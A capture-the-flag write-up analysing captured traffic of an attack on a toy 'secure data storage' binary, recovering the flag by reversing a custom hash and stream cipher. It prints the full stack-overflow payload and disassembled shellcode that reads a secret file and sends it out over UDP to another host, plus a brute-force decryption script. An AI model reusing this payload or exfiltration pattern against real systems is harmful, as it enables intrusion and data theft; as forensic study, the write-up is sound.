

# HV20.24 Santa's Secure Data Storage

_In order to prevent the leakage of any flags, Santa decided to instruct his elves to implement a secure data storage, which encrypts all entered data before storing it to disk._

_According to the paradigm Always implement your own crypto the elves designed a custom hash function for storing user passwords as well as a custom stream cipher, which is used to encrypt the stored data._

_Santa is very pleased with the work of the elves and stores a flag in the application. For his password he usually uses the secure password generator `shuf -n1 rockyou.txt`._

_Giving each other a pat on the back for the good work the elves lean back in their chairs relaxedly, when suddenly the intrusion detection system raises an alert: the application seems to be exploited remotely!_

## Mission

_Santa and the elves need your help!_

_The intrusion detection system captured the network traffic of the whole attack._

_How did the attacker got in? Was (s)he able to steal the flag?_

[Download](securestorage.zip)

---

Unzip the archive:
```
$ file *
attack.pcapng: pcapng capture file - version 1.0
data:          directory
data_storage:  ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4f732bdcc708dd6885deaf71d1971f8e81cc4f55, for GNU/Linux 3.2.0, not stripped
server.sh:     Bourne-Again shell script text executable, ASCII text
```

`data` folder is empty.

## attack.pcapng

The dump contains:

- TCP stream (`192.168.0.1 <--> 192.168.0.42`):
  ```
  00000000  77 65 6c 63 6f 6d 65 20  74 6f 20 73 61 6e 74 61   welcome  to santa
  00000010  27 73 20 73 65 63 75 72  65 20 64 61 74 61 20 73   's secur e data s
  00000020  74 6f 72 61 67 65 21                               torage!
  00000027  0a 70 6c 65 61 73 65 20  6c 6f 67 69 6e 20 77 69   .please  login wi
  00000037  74 68 20 65 78 69 73 74  69 6e 67 20 63 72 65 64   th exist ing cred
  00000047  65 6e 74 69 61 6c 73 20  6f 72 20 65 6e 74 65 72   entials  or enter
  00000057  20 6e 65 77 20 75 73 65  72 6e 61 6d 65 20 2e 2e    new use rname ..
  00000067  2e 0a 75 73 65 72 6e 61  6d 65 3e 20               ..userna me> 
  
  00000000  65 76 69 6c 30 72 0a                               evil0r.
  
  00000073  66 6f 75 6e 64 20 75 73  65 72 20 27 65 76 69 6c   found us er 'evil
  00000083  30 72 27 20 2e 2e 2e 0a                            0r' .... 
  0000008B  70 61 73 73 77 6f 72 64  3e 20                     password > 
  
  00000007  6c 6f 76 65 62 75 67 31  0a                        lovebug1 .
  
  00000095  77 65 6c 63 6f 6d 65 20  65 76 69 6c 30 72 21 0a   welcome  evil0r!.
  000000A5  5b 30 5d 20 73 68 6f 77  20 64 61 74 61 0a 5b 31   [0] show  data.[1
  000000B5  5d 20 65 6e 74 65 72 20  64 61 74 61 0a 5b 32 5d   ] enter  data.[2]
  000000C5  20 64 65 6c 65 74 65 20  64 61 74 61 0a 5b 33 5d    delete  data.[3]
  000000D5  20 71 75 69 74 0a                                   quit.
  000000DB  63 68 6f 69 63 65 3e 20                            choice>  
  
  00000010  33 20 41 41 41 41 41 41  41 41 41 41 41 41 41 41   3 AAAAAA AAAAAAAA
  00000020  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
  00000030  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
  00000040  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
  00000050  41 41 10 41 40 00 00 00  00 00 68 74 78 74 00 48   AA.A@... ..htxt.H
  00000060  bf 74 61 5f 64 61 74 61  2e 57 48 bf 64 61 74 61   .ta_data .WH.data
  00000070  2f 73 61 6e 57 48 89 e7  48 31 f6 48 31 d2 b8 02   /sanWH.. H1.H1...
  00000080  00 00 00 0f 05 48 89 c7  48 ba 00 00 01 00 01 00   .....H.. H.......
  00000090  00 00 52 6a 00 6a 00 6a  00 6a 00 48 89 e6 48 ba   ..Rj.j.j .j.H..H.
  000000A0  01 00 00 00 00 00 00 20  52 48 ba 00 00 00 13 37   .......  RH.....7
  000000B0  01 00 00 52 ba 20 00 00  00 b8 00 00 00 00 0f 05   ...R. .. ........
  000000C0  48 31 c9 81 34 0e ef be  ad de 48 83 c1 04 48 83   H1..4... ..H...H.
  000000D0  f9 20 75 ef bf 02 00 00  00 be 02 00 00 00 48 31   . u..... ......H1
  000000E0  d2 b8 29 00 00 00 0f 05  48 89 c7 48 89 e6 48 83   ..)..... H..H..H.
  000000F0  c6 03 ba 32 00 00 00 41  ba 00 00 00 00 6a 00 49   ...2...A .....j.I
  00000100  b8 02 00 00 35 c0 a8 00  2a 41 50 49 89 e0 41 b9   ....5... *API..A.
  00000110  10 00 00 00 b8 2c 00 00  00 0f 05 bf 00 00 00 00   .....,.. ........
  00000120  b8 3c 00 00 00 0f 05 0a                            .<...... 
  
  000000E3  67 6f 6f 64 20 62 79 65  21                        good bye !
  ```

  Apparently, the last client message (starting with `3 AAAA...`) is the exploit.

- DNS query (`192.168.0.1 --> 192.168.0.42`):
  
  

  This is the exfiltration of the encrypted flag (`data/santa_data.txt`).


## server.sh

Simple bash script:
```shell
#!/bin/bash
socat TCP4-LISTEN:5555,reuseaddr,fork EXEC:./data_storage,stderr;
```

Listen on port 5555 and forward to `data_storage` binary. Not very exciting.

## data_storage

This is the binary we need to reverse. 

Let's start with simple things:

```
$ strings -n 8 data_storage
welcome to santa's secure data storage!
please login with existing credentials or enter new username ...
username>
username must contain at least 3 characters!
username contains invalid characters!
data/%s_pwd.txt
found user '%s' ...
password>
wrong password!
creating user '%s' ...
please set your password (max-length: 19)
welcome %s!
data/%s_data.txt
[0] show data
[1] enter data
[2] delete data
[3] quit
choice>
good bye!
unknown choice!
no data found!
your secret data:
existing data found!
[0] abort
[1] overwrite
data deleted!
```

Alright, this matches nicely the network dump.

Run the binary:
```
$ ./data_storage 
welcome to santa's secure data storage!
please login with existing credentials or enter new username ...
username> hax0r
creating user 'hax0r' ...
please set your password (max-length: 19)
password> topsecret123
welcome hax0r!
[0] show data
[1] enter data
[2] delete data
[3] quit
choice> 1
data> my very secret message noone should ever know
[0] show data
[1] enter data
[2] delete data
[3] quit
choice> 3
good bye!
```

Two new files were created in `data` folder:
```
$ ls data/
hax0r_data.txt  hax0r_pwd.txt
$ xxd data/hax0r_pwd.txt 
00000000: adba a00d 3bd9 8e62 b8cf c74d 22a1 0331  ....;..b...M"..1
$ xxd data/hax0r_data.txt 
00000000: 2ff6 5c97 c0f8 4f3d 03f5 3462 8b75 c2c9  /.\...O=..4b.u..
00000010: 37ec 1f90 d2ff 0663 0fef 2965 de62 9adb  7......c..)e.b..
00000020: 17c3 38e1 e0dc 734f 70db 195f b921       ..8...sOp.._.!
```

Surely, `hax0r_pwd.txt` is a product of the custom hash function and `hax0r_data.txt` is encrypted with the 
custom stream cipher.

Next, I did some reversing using [Ghidra](https://ghidra-sre.org/).
See reversed code in [reversed.c](reversed.c). Those are the important findings:

- The stream cipher uses the hashed password as a key
  (and we know Santa's password is one from `rockyou` dictionary).
- There is a buffer overflow vulnerability in `show_menu` function (reading up to 1,000 bytes into 10-size buffer):
  ```c
  char choice[10];
  printf("choice> ");
  fgets(choice, 1000, stdin);
  ```
  
## Exploiting the binary

To understand the attack, I tried to simulate it. It didn't work in _Kali 2020.4_ running in Virtual Box, but
it worked under [WSL 2](https://en.wikipedia.org/wiki/Windows_Subsystem_for_Linux).

At first, I prepared [payload.bin](payload.bin) (exactly the same as the attacker had used).
```
$ xxd payload.bin
00000000: 6576 696c 3072 0a6c 6f76 6562 7567 310a  evil0r.lovebug1.
00000010: 3320 4141 4141 4141 4141 4141 4141 4141  3 AAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000050: 4141 1041 4000 0000 0000 6874 7874 0048  AA.A@.....htxt.H
00000060: bf74 615f 6461 7461 2e57 48bf 6461 7461  .ta_data.WH.data
00000070: 2f73 616e 5748 89e7 4831 f648 31d2 b802  /sanWH..H1.H1...
00000080: 0000 000f 0548 89c7 48ba 0000 0100 0100  .....H..H.......
00000090: 0000 526a 006a 006a 006a 0048 89e6 48ba  ..Rj.j.j.j.H..H.
000000a0: 0100 0000 0000 0020 5248 ba00 0000 1337  ....... RH.....7
000000b0: 0100 0052 ba20 0000 00b8 0000 0000 0f05  ...R. ..........
000000c0: 4831 c981 340e efbe adde 4883 c104 4883  H1..4.....H...H.
000000d0: f920 75ef bf02 0000 00be 0200 0000 4831  . u...........H1
000000e0: d2b8 2900 0000 0f05 4889 c748 89e6 4883  ..).....H..H..H.
000000f0: c603 ba32 0000 0041 ba00 0000 006a 0049  ...2...A.....j.I
00000100: b802 0000 35c0 a800 2a41 5049 89e0 41b9  ....5...*API..A.
00000110: 1000 0000 b82c 0000 000f 05bf 0000 0000  .....,..........
00000120: b83c 0000 000f 050a                      .<......
```

Run the binary with the payload and trace system calls:
```
$ strace ./data_storage < payload.bin
...
write(1, "good bye!", 9good bye!)       = 9
write(1, "\n", 1)                       = 1
open("data/santa_data.txt", O_RDONLY)   = -1 ENOENT (No such file or directory)
read(-2, 0x7ffd3b422d00, 32)            = -1 EBADF (Bad file descriptor)
socket(AF_INET, SOCK_DGRAM, IPPROTO_IP) = 3
sendto(3, "\0237\1\0\0\1\0\0\0\0\0\0 \357\276\255\336\357\276\255\336\357\276\255\336\357\276\255\336\357\276\255"..., 50, 0, {sa_family=AF_INET, sin_port=htons(53), sin_addr=inet_addr("192.168.0.42")}, 16) = 50
exit(0)                                 = ?
+++ exited with 0 +++
```

The part after printing `good bye` interests us the most. We can see reading of Santa's file and then sending (something)
to `192.168.0.42:53`.

Now we need to understand exactly what the payload does (I used [GDB](https://www.gnu.org/software/gdb/) with [GEF](https://gef.readthedocs.io/en/master/#dependencies)):
- `3 ` - Processed by the `show_menu` function (quit the program).
- `48*A` - Smashing the stack up to `RET` address.
- `1041 4000 0000 0000` - Overwriting the RET address with a jump to `0x00404110` (this is where the hashed password is stored,
  so the payload won't work with a different password than `lovebug1`).
- At `0x00404110` there is `jmp rsp` (jump onto the stack and execute the rest of the payload):
  ```
    0x40410e                  add    BYTE PTR [rax], al
  → 0x404110 <pwd_hash+0>     jmp    rsp # jump onto the stack
    0x404112 <pwd_hash+2>     mov    dl, 0x8b
  ```  
- Rest of payload disassembled (see [Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md)):
  ```
  0x00007fffffffe270:  push   0x747874 # txt
  0x00007fffffffe275:  movabs rdi,0x2e617461645f6174 # .atad_at 
  0x00007fffffffe27f:  push   rdi
  0x00007fffffffe280:  movabs rdi,0x6e61732f61746164 # nas/atad
  0x00007fffffffe28a:  push   rdi
  0x00007fffffffe28b:  mov    rdi,rsp # ARG0: const char *filename
  0x00007fffffffe28e:  xor    rsi,rsi
  0x00007fffffffe291:  xor    rdx,rdx
  0x00007fffffffe294:  mov    eax,0x2 # 'open' syscall
  0x00007fffffffe299:  syscall
  0x00007fffffffe29b:  mov    rdi,rax # ARG0: unsigned int fd
  0x00007fffffffe29e:  movabs rdx,0x100010000
  0x00007fffffffe2a8:  push   rdx
  0x00007fffffffe2a9:  push   0x0 # make space on stack for reading the file (4x8 bytes)
  0x00007fffffffe2ab:  push   0x0
  0x00007fffffffe2ad:  push   0x0
  0x00007fffffffe2af:  push   0x0
  0x00007fffffffe2b1:  mov    rsi,rsp # ARG1: char *buf
  0x00007fffffffe2b4:  movabs rdx,0x2000000000000001
  0x00007fffffffe2be:  push   rdx
  0x00007fffffffe2bf:  movabs rdx,0x13713000000
  0x00007fffffffe2c9:  push   rdx
  0x00007fffffffe2ca:  mov    edx,0x20 # ARG2: size_t count 
  0x00007fffffffe2cf:  mov    eax,0x0 # 'read' syscall
  0x00007fffffffe2d4:  syscall
  0x00007fffffffe2d6:  xor    rcx,rcx
  0x00007fffffffe2d9:  xor    DWORD PTR [rsi+rcx*1],0xdeadbeef # loop: XOR file data with 0xdeadbeef
  0x00007fffffffe2e0:  add    rcx,0x4
  0x00007fffffffe2e4:  cmp    rcx,0x20
  0x00007fffffffe2e8:  jne    0x7fffffffe2d9
  0x00007fffffffe2ea:  mov    edi,0x2
  0x00007fffffffe2ef:  mov    esi,0x2
  0x00007fffffffe2f4:  xor    rdx,rdx
  0x00007fffffffe2f7:  mov    eax,0x29 # 'socket' syscall
  0x00007fffffffe2fc:  syscall
  0x00007fffffffe2fe:  mov    rdi,rax
  0x00007fffffffe301:  mov    rsi,rsp
  0x00007fffffffe304:  add    rsi,0x3
  0x00007fffffffe308:  mov    edx,0x32
  0x00007fffffffe30d:  mov    r10d,0x0
  0x00007fffffffe313:  push   0x0
  0x00007fffffffe315:  movabs r8,0x2a00a8c035000002
  0x00007fffffffe31f:  push   r8
  0x00007fffffffe321:  mov    r8,rsp
  0x00007fffffffe324:  mov    r9d,0x10
  0x00007fffffffe32a:  mov    eax,0x2c # 'sendto' syscall
  0x00007fffffffe32f:  syscall
  0x00007fffffffe331:  mov    edi,0x0
  0x00007fffffffe336:  mov    eax,0x3c # 'exit' syscall
  0x00007fffffffe33b:  syscall
  ```

In short, read `data/santa_data.txt`, XOR it with `0xdeadbeef`, open socket, send data to `192.168.0.42:53`.

## Step 1: Get Santa's encrypted file

This is simple. XOR the attacker's DNS query with `0xdeadbeef`:
```
00000000: 20e5 afe5 9d31 aca3 ca21 1ec3 79a6 7323   ....1...!..y.s#
00000010: 5eda b6a0 8d2e d3b7 b66b 5585 7ec8 3422  ^........kU.~.4"
00000020: 7a00
==>
e5afe59d31aca3ca211ec379a673235edab6a08d2ed3b7b66b55857ec834227a
efbeaddeefbeaddeefbeaddeefbeaddeefbeaddeefbeaddeefbeaddeefbeadde
--- XOR --------------------------------------------------------
0a114843de120e14cea06ea749cd8e8035080d53c16d1a6884eb28a0278a8fa4
```

Save it as Santa's file (for later manual decryption, not necessary):
```
echo 0a114843de120e14cea06ea749cd8e8035080d53c16d1a6884eb28a0278a8fa4 | xxd -r -p > data/santa_data.txt
```


## Step 2: Get cipher keys (password hashes)

We know Santa is using `rockyou` password list (14,344,394 entries). To get the hashes,
I reused [calc_hash.c](calc_hash.c) function decompiled from the binary.
I added reading the `rockyou.txt` password list and save all the hashes
into binary file `hashes.bin` (not included, 240 MBs).

## Step 3: Brute-force password

Once we have the hashes, we need to find the correct one. I debugged `decrypt` and `keystream_get_char`
functions using GDB and transfer the logic into Kotlin:
```kotlin
import cz.vernjan.ctf.Resources
import cz.vernjan.ctf.hexToByteArray
import cz.vernjan.ctf.toHex
import java.lang.StringBuilder
import java.math.BigInteger
import kotlin.experimental.xor
import kotlin.system.exitProcess

private val keystreamConst = "deadbeefc0123456789a".hexToByteArray()
private val mulConst = BigInteger("cccccccccccccccd", 16)
private val ffffffffffffff00 = BigInteger("ffffffffffffff00", 16)

private val encrypted = "0a114843de120e14cea06ea749cd8e8035080d53c16d1a6884eb28a0278a8fa4".hexToByteArray()

fun main() {
    val hashesStream = Resources.asStream("hv20/hashes.bin")

    var counter = 0
    var hash: ByteArray

    while (hashesStream.available() > 0) {
        counter++

        hash = hashesStream.readNBytes(16)

        if (counter % 100000 == 0) {
            println("Progress ... $counter")
        }

        val sb = StringBuilder()
        for (i in encrypted.indices) {
            val encByte = encrypted[i]
            val keyByte = getKeystreamChar(i, hash)
            sb.append(encByte.xor(keyByte).toChar())
        }
        if (sb.contains("HV20")) {
            println("Counter: $counter, hash: ${hash.toHex()}")
            println(sb.toString())
            exitProcess(0)
        }
    }
}

private fun getKeystreamChar(i: Int, hash: ByteArray): Byte {
    val hashByte = hash[i % 16]
    val hashByteXorCounter = hash[i % 16].xor(i.toByte())

    val hashByteLong = BigInteger.valueOf(hashByte.toUByte().toLong()).add(ffffffffffffff00)
    val mulResult = mulConst.multiply(hashByteLong).shiftRight(64)
    val mulResultShr3 = mulResult.shr(3)
    val mulResultShr3Shl2 = mulResultShr3.shl(2)
    val mulResultAdd = mulResultShr3.add(mulResultShr3Shl2)
    val mulResultAddSelf = mulResultAdd.add(mulResultAdd)
    val mulResultSub = hashByteLong.subtract(mulResultAddSelf)

    val keystreamConstIndex = mulResultSub.toInt()
    val keystreamConstByte = keystreamConst[keystreamConstIndex]

    return hashByteXorCounter.xor(keystreamConstByte)
}
```

It prints out:
```
Progress ... 100000
Progress ... 200000
Progress ... 300000
Progress ... 400000
Counter: 455213, hash: ad86b8dd3bbddef29ccf57cd2e4903ed
HV20{0h_n0es_fl4g_g0t_l34k3d!1}
```

The flag is `HV20{0h_n0es_fl4g_g0t_l34k3d!1}` (and Santa's password was `xmasrocks`)
